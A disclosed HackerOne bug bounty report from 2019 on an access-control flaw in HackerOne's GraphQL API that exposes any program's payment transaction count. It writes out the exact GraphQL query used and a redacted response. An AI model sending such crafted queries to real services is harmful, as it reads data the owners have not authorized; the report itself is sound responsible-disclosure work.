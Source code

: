 # Disclosure of `payment_transactions` for programs via GraphQL query

## Report Details
- **Report ID**: 707433
- **URL**: https://hackerone.com/reports/707433
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2019-10-04T05:27:30.442Z
- **Disclosed**: 2019-12-01T18:13:59.537Z

## Reporter
- **Username**: msdian7
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: security

## Vulnerability Information
**Summary:**
payment transactions count of programs exposed

**Description:**
payment transactions details can be only accessed by program team members, but there is an flaw, with that, an unauthorized user can get payment transactions count of any program (i have confirmed only with public program)

### Steps To Reproduce

1.) Execute the below graphql

POST /graphql? HTTP/1.1
Host: hackerone.com

{"query":"query Team_mini_profile($handle_0:String!,$size_1:ProfilePictureSizes!) {team(handle:$handle_0) {id,...F0}} fragment F0 on Team {id,name,about,_profile_picturePkPpF:profile_picture(size:$size_1),offers_swag,offers_bounties,base_bounty,payment_transactions{total_count}}","variables":{"handle_0":"████","size_1":"small"}}


2.)  you will get below response 

{"data":{"team":{"id":"█████████","name":"███████","about":"█████████","_profile_picturePkPpF":"█████████","offers_swag":true,"offers_bounties":true,"base_bounty":null,"payment_transactions":{"total_count":9}}}}


3.)  done, payment transactions count of ████ is 9

## Impact

Unauthorized user can get private data

## Attachments
No attachments
